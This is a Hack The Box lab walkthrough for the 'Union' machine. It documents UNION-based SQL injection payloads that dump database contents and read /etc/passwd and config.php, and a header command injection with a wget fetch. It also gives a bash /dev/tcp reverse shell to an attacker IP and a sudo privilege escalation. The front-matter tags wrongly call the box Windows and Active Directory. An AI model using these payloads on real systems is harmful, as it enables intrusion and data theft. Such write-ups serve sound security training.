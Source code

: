 ```yaml
---
title: "Union Walkthrough(HTB)"
date: 2025-03-12
draft: true
description: "Union is an medium difficulty linux machine featuring a web application that is vulnerable to SQL Injection. There are filters in place which prevent SQLMap from dumping the database. Users are intended to manually craft union statements to extract information from the database and website source code. The database contains a flag that can be used to authenticate against the machine and upon authentication the webserver runs an iptables command to enable port 22. The credentials for SSH are in the PHP Configuration file used to authenticate against MySQL. Once on the machine, users can examine the source code of the web application and find out by setting the X-FORWARDED-FOR header, they can perform command injection on the system command used by the webserver to whitelist IP Addresses."
tags: ["medium", "Windows", "HTB", "hacking", "Active Directory", "Walkthrough"]
series: ["Hack The Box"]
series_order: 5
---
```

## Reconnaissance & Enumeration Linux 
- nmap scan results 
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
- Interesting isn't it, that we only got port 80 open
- From the session cookie we can learn that, It's running using PHP
- Fired up a subdomain scan and got no  results
- ![[Pasted image 20250113000957.png]]
- As this is a PHP ran web I fired up a directory fuzzing with extension `.php`
```
ffuf -u http://union.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -e .php -t 60
```
- Got some results
- ![[Pasted image 20250113001145.png]]
- Cannot access the `/firewall.php` page
- The website have a Username check option if the username valid or did not present on the database It will provide a link to `challenge.php` where have to submit some kind of flag
- This parameter seems to be vulnerable to #SQLi . When I provide this payload I am getting different error
```
'OR 1=1; -- -
```
- ![[Pasted image 20250113001954.png]]
- As firewall is running SQLMap not working so have to play manually
- Got a Interesting response for this payload
```
' UNION select user(); -- -
```
- ![[Pasted image 20250113002241.png]]

- Info about databases
```payload
' UNION select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata; -- -
```
- **Output:**
```
Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

- We got five databases but `november` seems more interesting
```
' UNION select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november'; -- -
```
- **Output:**
```
Sorry, flag,players you are not eligible due to already qualifying.
```

- `november` database has two tables
```
' UNION select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november'; -- -
```
- **Output:**
```
Sorry, flag:one,players:player you are not eligible due to already qualifying.
```

- Each had only one column so password column I guess. Going for `flag` table for now
```
' UNION select group_concat(one) from flag; -- -
```
- **Output:**
```
Sorry, <redacted> you are not eligible due to already qualifying.
```
- Got the flag and after submission of the flag to website firewalls lifted and port 22 is now accessible
- ![[Pasted image 20250113003834.png]]
- nmap scan result for port 22
```
❯ nmap -p 22 -A 10.10.11.128                            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-12 23:42 IST
Nmap scan report for union.htb (10.10.11.128)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)

```

- Got the users info
```
' UNION select group_concat(player) from players; -- -
```
- **Output:**
```
Sorry, ippsec,celesian,big0us,luska,tinyboy you are not eligible due to already qualifying.
```
## Exploitation

- Got the `/etc/passwd` file data
```
' UNION select load_file('/etc/passwd'); -- -
```
- **Output:**
```
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
htb:x:1000:1000:htb:/home/htb:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
 you are not eligible due to already qualifying.
```
- Found three valid users to access the system

- Can also read the source code of the page
```
' UNION select load_file('/var/www/html/index.php'); -- -
```
- As we found the `config.php` via the directory fuzzing let's try getting it
```
' UNION select load_file('/var/www/html/config.php'); -- -
```
- **Output:**
```
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "<redacted>";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```
- Accessed SSH and got the user flag
- ![[Pasted image 20250113005214.png]]
## Privilege Escalation
- Looked onto the `firewall.php` code
```
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
```
- This above part is vulnerable to command Injection
- Tested with this header payload and it worked
```
X-FORWARDED-FOR: 8.8.8.8; wget http://10.10.14.4:8000/Union_AllPorts.txt;
```
- ![[Pasted image 20250113011912.png]]
- Got a shell with this 
```
X-FORWARDED-FOR: 8.8.8.8; bash -c 'exec bash -i &>/dev/tcp/10.10.14.4/6001 <&1';
```
- Upgraded the shell to be more stable using new technique
```
script /dev/null -c bash
```
- Then foreground the shell with `CTRL+Z`
```
stty raw -echo; fg
```
- In the shell type this
```
reset
```
- Now the shell is upgraded
- Issued this command `sudo -l` and found that `sudo` can be run with anything
- ![[Pasted image 20250113012401.png]]
- So exploited it using 
```
sudo /bin/bash
```
- Got the root flag.
- ![[Pasted image 20250113012505.png]]
